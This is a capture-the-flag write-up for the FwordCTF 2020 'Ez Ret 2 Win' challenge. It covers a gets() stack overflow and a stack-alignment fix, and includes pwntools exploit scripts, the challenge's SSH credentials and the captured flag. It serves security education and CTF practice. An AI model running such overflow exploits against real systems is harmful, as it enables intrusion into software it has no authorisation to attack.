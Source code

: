 # FwordCTF 2020

## Ez Ret 2 Win ? (postmortem)

> 499  
>  
> Is it really an easy Ret2Win ? i just couldn't exploit it :'(  
> **PS: Task is not broken ,this is the intended behaviour of the binary.**  
> SSH Credentials:  
> `ssh -p 2222 [email protected]`  
> Password: `FwOrDAndKahl4FTW`  
>  
> Author: KAHLA  
>  
> [`superez`](superez)

Tags: _pwn_ _x86-64_ _bof_ _ret2win_ _ssh_

## Summary

This _is_ a stupid _easy_ _ret2win_ that worked locally, but not remotely (via
ssh).  After reading a writeup, I was just _off by one_.  Kinda pissed.

Hat tip again to [po6ix](https://gist.github.com/po6ix/) for their
[writeup](https://gist.github.com/po6ix/31a1ed1b033b1ab23541c84e83de448d#file-
ez-ret-to-win-py)

The key is here from po6ix:

```  
# payload += p64(0x400917)  
payload += p64(0x400918)  
```

+1.  Goddamnit.

## Analysis

### Checksec

```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

The title indicate this is _ret2win_, so assume we just need to BOF and
_ret2win_.

### Decompile with Ghidra

```c  
 if (__fd == 0) {  
   printf("Enter Your password to continue: ");  
   gets(local_a8);  
   printf("you typed \'%s\', Good Bye!\n",local_a8);  
```

From `main` above, `gets` is the vulnerability.  And the buffer is `0xa8`
bytes from the return address.

```c  
undefined8 rasengan(void)  
{  
 int iVar1;  
 FILE *__stream;  
  
 __stream = fopen("flag.txt","r");  
 if (__stream == (FILE *)0x0) {  
   perror("flag.txt not found! If this happened in the server contact the
author please!");  
                   /* WARNING: Subroutine does not return */  
   exit(1);  
 }  
 while( true ) {  
   iVar1 = fgetc(__stream);  
   if ((char)iVar1 == -1) break;  
   putchar((int)(char)iVar1);  
 }  
 fclose(__stream);  
 return 0;  
}  
```  

Here is our `win` function.  Easy, right?

## Exploit

### Local Test

```  
#!/usr/bin/env python

from pwn import *

binary = context.binary = ELF('./superez')  
context.log_level = 'DEBUG'  
context.log_file = 'foo.log'

p = process(binary.path, stdin=PTY, raw=True)  
p.recvuntil('Enter Your password to continue:')  
payload  = 0xa8 * b'A'  
payload += p64(binary.sym.rasengan)  
p.sendline(payload)  
p.interactive()  
```

This worked perfectly.

### Remote Test

```  
#!/usr/bin/env python

from pwn import *

binary = context.binary = ELF('./superez')  
context.log_level = 'INFO'  
context.log_file = 'log.log'

s =
ssh(host='superez.fword.wtf',user='ctf',port=2222,password='FwOrDAndKahl4FTW')  
p = s.run('/bin/bash')  
p.recvuntil('/home/user1$')  
p.sendline('./task')

p.recvuntil('Enter Your password to continue:')  
payload  = 0xa8 * b'A'  
payload += p64(binary.sym.rasengan)  
p.sendline(payload)  
p.interactive()  
```

This did _NOT_ work.  I wasted all my time thinking it was something with ssh
and some of the `termios` shitfuckery in `main`.

In hindsight I should have just checked out the libc version on the remote
server, or just blindly tested:

`payload += p64(binary.sym.rasengan + 1)`

`+ 1`, there it is again.  I know better.  I should have known [stack
alignment](https://blog.binpang.me/2019/07/12/stack-alignment/) could be a
potential issue and testing with +1 could have been a lazy check.  Jesus, I
already dealt with this twice in this CTF.

Fuck me.

Output:

```  
# ./exploit.py  
[*] '/pwd/datajerk/fwordctf2020/ezret2win/superez'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Connecting to superez.fword.wtf on port 2222: Done  
[*] [email protected]:  
   Distro    Unknown Unknown  
   OS:       Unknown  
   Arch:     Unknown  
   Version:  0.0.0  
   ASLR:     Disabled  
   Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)  
[+] Opening new channel: '/bin/bash': Done  
[*] Switching to interactive mode

you typed
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18@',
Good Bye!  
FwordCTF{CVE-2019-18634_Is_L33t_BuT_1SnT_It_E4Sy_Ret2Win?}  
Segmentation fault (core dumped)  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/fwordctf2020/ezret2win).